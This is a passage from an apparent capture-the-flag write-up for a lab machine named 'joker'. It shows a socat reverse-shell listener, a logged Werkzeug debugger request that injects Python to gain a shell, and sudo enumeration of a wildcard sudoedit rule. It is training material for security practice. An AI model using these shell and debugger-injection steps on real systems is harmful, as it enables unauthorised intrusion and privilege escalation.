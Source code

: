 At `socat`:



    root@kali# socat file:`tty`,raw,echo=0 udp-listen:53
    127.0.0.1 - - [03/Aug/2020 23:55:55] "GET /console?__debugger__=yes&cmd=os.dup2(s.fileno()%2C2)&frm=0&s=p9c0pgvzQFZkepakugdO HTTP/1.1" 200 -
                                                                                                                                                werkzeug@joker:~$ id
    uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
    werkzeug@joker:~$



## Priv: werkzeug --\> alekos

### Enumeration

Before I run enumeration scripts, I always check `sudo`, and there's an
entry:



    werkzeug@joker:/home/alekos$ sudo -l
    Matching Defaults entries for werkzeug on joker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        sudoedit_follow, !sudoedit_checkdir

    User werkzeug may run the following commands on joker:
        (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.md



`sudoedit` is a shortcut for running `sudo` with the `-e` flag:

> The **-e** (*edit*) option indicates that, instead of running a
> command, the user wishes to edit one or more files. In lieu of a
> command, the string "sudoedit" is used when consulting the security
> policy. If the user is authorized by the policy, the following steps
> are taken:
>
> 1.  Temporary copies are made of the files to be edited with the owner
>     set to the invoking user.
>
> 2.  The editor specified by the policy is run to edit the temporary
>     files. The *sudoers* policy uses the SUDO_EDITOR, VISUAL and
>     EDITOR environment variables (in that order). If none of
>     SUDO_EDITOR, VISUAL or EDITOR are set, the first program listed in
>     the *editor* **[sudoers](https://linux.die.net/man/5/sudoers)**(5)
>     option is used.
>
> 3.  If they have been modified, the temporary files are copied back to
>     their original location and the temporary versions are removed.
>
> If the specified file does not exist, it will be created. Note that
> unlike most commands run by *sudo*, the editor is run with the
> invoking user's environment unmodified. If, for some reason, **sudo**
> is unable to update a file with its edited version, the user will
> receive a warning and the edited copy will remain in a temporary file.
